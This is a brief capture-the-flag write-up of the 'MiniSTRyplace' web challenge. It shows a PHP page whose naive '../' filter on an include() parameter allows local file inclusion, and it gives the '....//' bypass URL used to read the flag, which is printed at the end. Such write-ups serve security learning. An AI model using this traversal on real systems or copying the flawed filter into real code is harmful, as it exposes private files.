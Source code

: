 ```yaml
---
title: MiniSTRyplace
date: 2021-04-25 14:03:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains a LFI vulnerability. You can read more about it in this [article](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601/). (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/miniSTRyplace_web.png#center)

## Vulnerability
Let's take a look at the index file `index.php`:

```php
<html>
    <header>
        <meta name='author' content='bertolis, makelaris'>
        <title>Ministry of Defence</title>
        <link rel="stylesheet" href="/static/css/main.css">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootswatch/4.5.0/slate/bootstrap.min.css"   >
    </header>

    <body>
    <div class="language">
        <a href="?lang=en.php">EN</a>
        <a href="?lang=qw.php">QW</a>
    </div>

    <?php
    $lang = ['en.php', 'qw.php'];
        include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
    ?>
    </body>
</html>
```

We can see it checks if the param `lang` is given and if so it replaces “../” with a blank character.  If we submit “....//”, it becomes “../” allowing path traversal and access to the flag.

## Exploitation
With that knowledge we just visit http://[DOCKER-IP]/?lang=....//....//....//flag

Now we just have to read the flag:

> CHTB{b4d_4li3n_pr0gr4m1ng}

٩(◕‿◕｡)۶